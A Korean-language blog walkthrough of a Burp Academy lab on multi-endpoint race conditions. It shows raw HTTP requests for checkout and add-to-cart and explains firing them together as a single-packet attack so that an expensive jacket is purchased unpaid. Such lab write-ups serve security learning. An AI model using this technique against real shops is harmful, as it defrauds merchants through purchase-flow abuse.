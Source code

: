 ```yaml
---
layout: post
title: "Burp Academy-레이스컨디션 관련 취약점: Multi-endpoint race conditions"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, 레이스컨디션, Race Condition]
toc: true
last_modified_at: 2023-09-01 10:33:00 +0900
---
```


# 개요
- 2023년 새로 추가된 레이스 컨디션 관련 취약점 문제이다. 
- 이 문제는 여러개의 엔드포인트에 동시에 요청을 보내는 방식의 레이스 컨디션(Multi-endpoint race conditions) 문제이다.
- 예를 들면, 장바구니에 상품을 넣고 구매를 진행하는데, 구매가 완료되기 전에 상품을 하나 더 넣으면 어떻게 될까? 레이스 컨디션에 취약한 EC사이트라면 여러개의 상품이 구매되는 결과가 될 것이다. 
- 문제 주소: https://portswigger.net/web-security/race-conditions/lab-race-conditions-multi-endpoint
- 취약점 설명페이지: https://portswigger.net/web-security/race-conditions#limit-overrun-race-conditions
- 난이도: PRACTITIONER (보통)

# Multi-endpoint collisions
- 이름 그대로 여러개의 엔드포인트가 조합되면 레이스 컨디션이 발생할 수 있는 상황을 말한다. 
- 예를 들면, 장바구니에 담은 상품을 결제할 때, 결제(엔드포인트1)하는 타이밍과 거의 동시에 장바구니 추가 요청(엔드포인트2)을 보내면 어떻게 될까? 결제는 하나의 상품에 대해서 이루어졌는데 추가된 상품도 같이 구매될 수도 있다. 

# 문제 개요

```
This lab's purchasing flow contains a race condition that enables you to purchase items for an unintended price.

To solve the lab, successfully purchase a Lightweight L33t Leather Jacket.

You can log into your account with the following credentials: wiener:peter.

Note
Solving this lab requires Burp Suite 2023.9 or higher.

Tip
When experimenting, we recommend purchasing the gift card as you can later redeem this to avoid running out of store credit.
```

# 살펴보기, 어떻게 풀지 생각해보기 
로그인하면 다음과 같은 화면이 나타난다. 계정의 잔고는 100달러가 있고, 쓸 수 있는 Gift card가 주어지지 않았다. 사야하는 레더자켓은 1330불정도 한다. 음.. 

![로그인후 모습](/images/burp-academy-race-condition-3-1.png)

1. Giftcard는 상품으로 팔고 있다. 재킷바로 옆에 있다. Giftcard를 구매해보면 다음과 같이 나온다. 
10달러로 10달러 충전할 수 있는 카드를 산 셈이다. 

![기프트카드구매후 모습](/images/burp-academy-race-condition-3-2.png)

Code: zrfKg5KWcx

2. Giftcard를 사용하는 엔드포인트에 레이스 컨디션 취약점이 있는지 확인해보자. 만약 취약점이 있다면 동일한 코드를 여러번 사용할 수 있을 것이다. 이를 통해 잔고를 불릴 수 있을 것이다. 만약 1330불 이상으로 충전할 수 있다면 이 것만으로도 문제를 풀 수 있을 것이다. 

3. 하나더 생각할 수 있는 것은 결제를 하는 타이밍에 장바구니에 재킷을 추가하는 타입의 레이스컨디션이다. 싼 아이템을 구매하면서 동시에 장바구니에 재킷을 추가한다면 재킷도 함께 구매되지 않을까.

# Giftcard 동시 사용가능할지 테스트 

1. Giftcard를 한번 사용해본다. 

![My Account페이지](/images/burp-academy-race-condition-3-3.png)

Gitfcard를 사용하는 요청은 다음과 같다. 

```http
POST /gift-card HTTP/2
Host: 0a3400fd03e713a282146fad007b00ca.web-security-academy.net
Cookie: session=WeVAxyCA9MP8nW4k1Shqsjhgra7kywyJ
Content-Length: 58
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a3400fd03e713a282146fad007b00ca.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3400fd03e713a282146fad007b00ca.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

csrf=qOfJZydKrg6FkUwyTGIbknQyr4CMCxQx&gift-card=zrfKg5KWcx

```

이 때의 응답이다. 

```http
HTTP/2 302 Found
Location: /my-account
X-Frame-Options: SAMEORIGIN
Content-Length: 0


```

2. 그러면 Giftcard를 한장 더 사서 레이스 컨디션을 시도해본다. 
Single Packet Attack 테크닉으로 몇 번 시도해보면 레이스컨디션이 안되는 것을 알 수 있다. 두번째 요청부터는 400응답을 돌려준다. 

![레이스컨디션실패](/images/burp-academy-race-condition-3-4.png)

# 결제 타이밍에 장바구니 추가하기 테크닉 
결제를 하는 요청과 장바구니에 추가하는 요청을 동시에 보내는 방법이다. 이를 위해서 각각의 요청을 준비한다. 

## 싼 상품 결제 요청 
장바구니에 있는 아이템을 결제 하는 요청이다. 

```http 
POST /cart/checkout HTTP/2
Host: 0a3400fd03e713a282146fad007b00ca.web-security-academy.net
Cookie: session=WeVAxyCA9MP8nW4k1Shqsjhgra7kywyJ
Content-Length: 37
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a3400fd03e713a282146fad007b00ca.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3400fd03e713a282146fad007b00ca.web-security-academy.net/cart
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

csrf=qOfJZydKrg6FkUwyTGIbknQyr4CMCxQx
```


## 레더재킷 장바구니에 추가하기 요청
장바구니에 추가하는 요청이다. 구매해야할 레더재킷의 productId는 1이므로 1을 지정한다.

```http 
POST /cart HTTP/2
Host: 0a3400fd03e713a282146fad007b00ca.web-security-academy.net
Cookie: session=WeVAxyCA9MP8nW4k1Shqsjhgra7kywyJ
Content-Length: 36
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a3400fd03e713a282146fad007b00ca.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3400fd03e713a282146fad007b00ca.web-security-academy.net/product?productId=2
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

productId=1&redir=PRODUCT&quantity=1
```

## 준비 
장바구니에 뭔가 싼 상품이나 Giftcard를 추가해둔다. 

## 공격
위의 두 요청을 Reapeter에서 그룹으로 묶어서 Single Packet Attack을 수행한다.  (Send 셀렉트박스에서 Send Group in parallel (single packet attack) 을 선택한다.)

그리고 웹 페이지를 재로딩하면 문제가 풀렸다는 메세지가 표시된다. 레이스 컨디션에 성공한 것이다! 이 레이스 컨디션은 카트에 추가하는 것보다 구매를 하는 요청이 아주 조금더 빨리 서버에 도달할 필요가 있다. 따라서 경우에 따라서는 실패할 수도 있다. 그럴 때는 될 때까지 재시도하면 된다. 이번에는 운이 좋아서 한번에 성공했다. 

![Multi-endpoint 문제풀이성공](/images/burp-academy-race-condition-3-success.png)